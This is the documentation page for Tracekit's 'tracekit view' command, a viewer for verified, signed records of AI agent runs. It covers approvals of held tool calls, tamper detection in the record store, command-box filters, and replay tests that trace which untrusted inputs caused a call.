# Viewer

`tracekit view` is Tracekit's one viewer: one command, one page, one server, whatever the runs come from.

Using 1.4.x? Its viewer, as it was then, is on [Viewer 1.4](viewer-1.4.md).

| Command | Shows |
|---|---|
| `tracekit view` (`--dev`, `--config signer.yaml`, `--data-dir DIR`) | the v2 signer's runs, each verified ([below](#laptop-viewer)) |
| `tracekit view --dev --why DIR` | those runs with the why investigation of their why logs ([below](#why)) |
| `tracekit view --why DIR` | why logs alone, each run's events on the tape |
| `tracekit view --ledger [HOME]`, `tracekit view --bundle FILE` | the v1 ledger (`tracekitd`), or a v1 bundle once it verifies; loopback only |
| `tracekit view --config signer.yaml` with `view.logs` | every log of a central deployment ([below](#central-viewer)) |
| `tracekit report` (`--dev`, `--config signer.yaml`, `--data-dir DIR`) | not a page: a week of the signer's store as plain text or JSON ([below](#weekly-report)) |

`tracekit observe` and `tracekit why serve` still work as before and print one line pointing here. A single bundle's
self-contained `replay.html` stays a file you open without a server.

## Pages and a run's views

The header holds the pages, the command box, and on a run's page that run's views:

| Page | What it shows |
|---|---|
| **DESK** | every run at once: the stats strip, the tape across runs, alerts, tool mix, one lane per agent, reasoning, files and the detail panel (the panels below) |
| **RUNS** | every run with its counts (calls, blocked, held, flagged, gaps) and verdict, newest first; click one for its page. With why logs, their runs follow; on a central deployment, a link to its searchable runs page |
| **LIVE** | the page of the newest run still open |
| **APPROVALS** | each held call nobody has answered yet, in every run (approving one lets the agent's retry of the same call run, once): what it binds (the signer's copy of the arguments, when the viewer has it), its rule in words and the `tracekit approvals approve` / `reject` commands to copy; then each held call answered or ended, once, with what came of it (approved, rejected, expired, abandoned, ...: PERMISSIONS' outcome, which `tracekit report` counts too) and the call (its tool and the visible part of its arguments, or "arguments not kept"). The count on the button (`TO ANSWER`) is the number not answered yet. The page answers nothing: the approvals page (with OIDC login, a passkey) or the signer's command does |
| **PERMISSIONS** | every decision that was not a plain allow, and what came of it: blocked, ran flagged, approved, rejected, expired or not answered, who answered and when |
| **HORIZON** | where the agents went, around a black hole: the project, this machine and the outside world ([below](#horizon)) |
| **INFLUENCE** | with why logs: what content reached which tools across every run ([below](#influence)) |







A run's page shows the run's agents (the run that started it and every run started from there, each with its calls,
held, blocked and flagged counts) and tool mix on the left, one of its views in the middle and the inspector (DETAIL,
WHY, NODE) on the right, under a header with the run's verdict, counts and the **EXPORT**, **TRUST** and **VERIFY** commands. Its
views, keys `1` to `7`: **OVERVIEW**, **CALLS** (the run's tape), **TIMELINE** (by call on one time axis, or one lane per agent), **GRAPH**,
**WHY**, **AGENTS** and **EVIDENCE** (the run's signed records in order, the viewer's checks and their result, and
the export and verify commands; [below](#a-runs-timeline-evidence-and-the-inspector)). OVERVIEW, GRAPH, WHY and
AGENTS need the run's why log, which the viewer builds for each verified run.



**NEEDS YOU**, under the stats strip, lists across every run what needs a person, first the held calls nobody has
answered yet (oldest first: the call, its rule and why, then "approve it to let the agent's retry run", since a
coding agent's hook blocks the call at once and the agent goes on), then runs an incident holds, runs that failed
verification or weren't checked, and a viewer that stopped checking; each with the command that acts on it and **OPEN**. A run whose held calls left the live view (it keeps
the newest 50,000 records) is one line with its count, from its review: OPEN it, and its PERMISSIONS lists each call
with the command that answers it. With nothing to do it reads `ALL CLEAR · N agents working`; while the viewer is still
reading the store's runs (on start, one at a time) it says how many are left instead, since it can't know yet. The
stats strip's **SPAN** on DESK runs from the first record of the earliest run to the last of the latest; on a run's
page, over that run's records. A new hold or high alert also shows for a few seconds in the corner. **THEME** (or `T`) picks auto (this
computer's setting), light or dark, kept in this browser.



The address bar follows what is open (`#run=…&view=graph&seq=42`, `#page=permissions`), so a link opens the same run,
view and record, and Back and Forward step through what you opened. Links from before keep working: `#run=…` opens the
run's page, and the old view names (`view=timeline` is CALLS with the why log's events) map to the new places.

## Tour

Open it with one command, then open the URL it prints (it carries a one-time token):

```bash
tracekit view --dev                     # the dev signer's runs
tracekit view --why runs --allow-program tracekit.why.demo:SYSTEM   # after `tracekit why demo --out runs`
```

The screenshots on this page come from the runs the viewer's browser checks record (`scripts/viewer_qa/gen.py base`: a support
agent, a Claude Code-style run and others), an agent whose push waits for a person, the `tracekit why demo` runs, and the
sample v1 bundle.

### Runs and the tape



Panel 1 lists each run with its verdict: `VERIFIED` means `tracekit verify`'s checks passed on the run's bundle against
the pinned log key (here the store's own key: `dev` assurance); `FAILED` means they did not, and the run shows only its
failure report (a run that verified at an earlier checkpoint and fails at a later one has the records it showed, and
its earlier report and findings, taken back); `ERROR` means the viewer could not check the run (its NOT CHECKED row
says why; it tries again five minutes later or when the run grows); `PENDING` means no checkpoint covers the run's
records yet. A viewer that stops checking runs altogether says `STOPPED`, not `LIVE`, with the reason, until it
restarts, and every mark of a run that verified (the run chip, its verdict, EVIDENCE's stamp, HORIZON's chain) reads
`VERIFIED · CHECKS STOPPED`, no longer green. On start the viewer checks the newest runs first, so the run being
written shows once its own check is done (about 20 s for a 50,000-record run), and the rest follow at about half a
core, each run's first check followed by a pause as long as it took (about 12 minutes for a 430,000-record store; until
then NEEDS YOU says how many runs it is still checking). A run still being written is shown up to the newest checkpoint and grows with
each one: only the records it added are read and checked one by one (the checks of the run as a whole run again over
all of them; the viewer keeps the bytes of the runs it checked last for that, 64 MiB in all, and reads a run past
them whole again), and checking what runs added takes at most 1/41 of a core, each run in turn. The viewer reads a file
store once, then only what is appended to it, and hashes the bytes it read again in pieces of 1 MiB: at each change
of the store the piece its last read began in (the newest records), and every piece every minute and whenever the file
is written to without growing. An edit of records it showed is caught at the store's next change when it is in that
last piece, at once when the file is written to without growing (its time not set back), and otherwise within the
minute; each run with a record in a piece that changed (every run for a key record's, or a file replaced or cut back)
then reads `PENDING` (re-checking) until it is checked again, in the order the runs started waiting, and the edited
run turns `FAILED`. The store it then reads anew is compared, piece by piece, with what it read before, so an edit made
meanwhile anywhere in it is caught as well. A check verifies exactly the bytes the viewer read and hashed: it keeps 8
bytes of a keyed hash of each record it read (4 MB for 500,000 records), and a record that reads otherwise when a check
reads it again (the honest bytes put back only while the check reads them) is an edit too, caught at that check: the
store is read anew at once and the run checked again. A checkpoint note that changes is checked as each run's check
reads it: one that no longer checks (an edit of its signature) or names another root has every run checked again; a
witness's cosignature merged into it checks no run again. So an edit that stays in the store is caught within the minute
however it is timed; bytes that are the honest ones each time the viewer reads them are not, by this viewer or any
reader. A run that fails when `/api/rows` reads its records from the store reads `PENDING` (re-checking) at once,
until the viewer checks it again. A run of a Postgres store, and a run that failed or could not be checked, is checked again five
minutes after its last check, one run at a time. Past 50,000 rows (`TRACEKIT_OBSERVE_MAX_RECORDS`) the oldest leave the live
view and the tape says how many; each run's latest verdict stays in the run list, for up to 10,000 runs (a failed
run's goes last). Once rows have left it, a run older than every record the live view holds shows only its verdict
there; its records load when you open it.
Under each run: calls, **blocked** (red: the policy
denied them), held for a person, and signed gaps. Panel 2, the tape, has one row per signed record: `BLOCK` a denied
call (red), `TOOL` an allowed one (`⚑` flagged by a rule), `HOLD` a call held for a person, with its approvals folded
under it and its final state (`APPROVED · RAN`, `REJECTED`, `EXPIRED`, `TO ANSWER`) in STATUS, `SESS` the run's start and
end. A row marked `ANALYSIS` is the viewer's own work, not a record: `VERIFY` (the verifier's report) and the `FINDING`s
of its analysis have no seq and no hash, and replay skips them; a row marked `WHY` comes from a why log. A findings
run's signed findings (`tracekit analyze --v2`) are `FINDING` rows of that run: each says who wrote it (the identity the
signer measured for the findings run) and the reviewer the analyzer names (its own claim); `tracekit verify` says
whether that author is independent of the analysed run or self-asserted. The tape renders the newest 600 rows; **SHOW
OLDER** at its end renders more. Times are your browser's local time; the clock names the zone. The header's `CHAIN ✓ N
SIGNED RECORDS` and `RECORDS` count the records shown from runs that verified. Click a run to scope the whole page to
it; **All runs** goes back. A red bar under the header says when the page lost its viewer: it reconnects on its own and
reloads the records. When the viewer refuses the page's session after it had worked (the viewer restarted, with a new
token, or the session ended), the bar and NEEDS YOU say so, and the page stops its live parts (the stream, the checks,
HORIZON's motion, the toasts): open the link `tracekit view` printed, or sign in again. A HORIZON stage the browser can't
draw says so in its place.

### A run's review



With a run selected and no row, panel 8 is the run review. It opens with one sentence ("Verified. 8 calls: 5 ran, 1
blocked, 3 held (1 rejected, 1 approved, 1 expired). 2 findings, 1 high."), then Integrity, Assurance, how many calls
were allowed, flagged, denied and held, who approved, gaps in words (the gap's kind is the line's tooltip) and
coverage. Click a line to jump to its first record. Every verdict here is operator-side: for evidence, verify the
bundle yourself with keys you pinned; **EXPORT**, **TRUST** and **VERIFY** give the exact `tracekit export --v2`,
`tracekit signer trust -o trust.json` (export writes no trust file) and `tracekit verify` commands, each with a **COPY**
button and naming the signer the viewer reads as it was started (`--dev`, `--config` or `--data-dir`), so they run as
copied. A run that fails leads with its failing check.

### A denied call



Click a tape row for its record: the decision (`DENY → BLOCKED`), the rules that matched with their reasons, the run's
verdict, the arguments the dev signer kept (when it kept them), the arguments commitment (v2 records keep arguments
only as a salted commitment) and, on the right, the record's seq, hash and previous hash in full. **COPY** copies a
hash, a run id or the `tracekit signer reveal` command. The findings that cite a record are listed on it, and a
finding's CITES opens the records it cites. The bottom bar replays the selected run: `SPACE` (or `PLAY` and `PAUSE` in
the command box) plays, `←` `→` step, `D` `H` `G` jump to the next deny, hold or gap (with none ahead, the box says
so), `L` returns to live.

### The command box



Type `/` (or click the box at the top), then a command and Enter: `AGT name`, `TOOL Bash`, `FILE .env`, `FLAG`
(flagged, blocked or failed only), `FIND text`, `SEQ n` (open record n), `CLR` (clear every filter), `HELP` (this
list). Each filter shows as a chip in the header; click its `✕` to drop it. `SEQ n` on a record with no row of its
own (a call's decision or result is on the call's row) opens the row before it and says so in the box.

### Why: the verdict and the path



With why logs, select a tool call (or click a `WHY` alert, panel 3) and open **WHY** in panel 8. The verdict sentence
says what replays found; **How it got here** is the recorded path from each untrusted input (red border) through the
agents' model calls and messages to the call. Click any step to open it. While WHY or NODE is open, panel 8 widens
so its tables and values wrap instead of being cut; DETAIL gives the room back.

### FIND THE CAUSE and RUN TEST



**Candidate causes** lists every input and channel upstream of the call. **RUN TEST** replays the run without one of
them (recorded tool results, new tool calls stubbed: nothing real is re-sent) and compares how often the call
happens: `PRIMARY CAUSE` (red) means it stops happening without it, `NO EFFECT SEEN` means no change larger than the
test can detect, `RULED OUT` means the effect's 95% interval stays within ±0.2 (it makes no real difference),
`INCONCLUSIVE` means too few replays reproduced the call, and `NOT TESTED` means no replay has measured it yet.
**FIND THE CAUSE** runs a group test and narrows it down. Both run only for a program passed with
`--allow-program`; otherwise the panel prints the command. The effect is the drop in how often the call happens,
with its 95% interval.

### Runs, overview and timeline (Causeway's)

With why logs a run's page also has Causeway's views of a run, and the picker next to the view's title chooses the why
run. A why run has that page even with no signed run selected: a why run on RUNS, a lineage step, **SHOW WHAT IT
REACHED**, **WHY DID THIS HAPPEN?** and a why alert each open it.



**RUNS** lists every run: alerts (`high` red, `review` amber), tests with how many were causal, and `intact` when the
log's hash chain checks. Click a run for its overview.

